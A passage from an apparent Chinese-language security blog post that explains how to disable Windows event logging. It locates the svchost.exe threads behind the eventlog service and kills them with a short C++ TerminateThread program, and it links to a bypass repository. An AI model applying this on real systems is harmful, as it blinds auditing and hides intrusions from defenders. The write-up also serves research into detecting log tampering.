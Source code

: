 找到eventlog服务对应进程svchost.exe

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-6-23/4-4.png)

右键查看属性，选择Threads标签，查看线程,可直接获得线程对应的服务

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-6-23/4-5.png)

符合条件的线程TID为：

- 8136
- 8052
- 6708
- 2316
- 6356

**4、**结束线程

调用TerminateThread

通过c++实现，部分代码如下：

```
int main(int argc, char* argv[])
{	
	printf("TerminateThread TID:\n");   	
	for(int i=1;i<argc;i++)
	{	
		printf("%s\n",argv[i]);
		HANDLE hThread = OpenThread(0x0001, FALSE,atoi(argv[i]));
		if(TerminateThread(hThread,0)==0)
			printf("[!] TerminateThread Error, TID: %s \n",argv[i]);
		CloseHandle(hThread);
	}  
	return 0;
}
```

完整代码已上传至github，地址如下：

https://github.com/3gstudent/Windwos-EventLog-Bypass/blob/master/TerminateEventLogThread.cpp


控制台支持传入多个参数，向其传入5个TID： 8136 8052 6708 2316 6356

自动结束对应线程，日志功能失效

具体操作如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-6-23/4-6.png)

**注：**

稍后我会在github上更新该绕过方法的完整实现代码，地址如下：
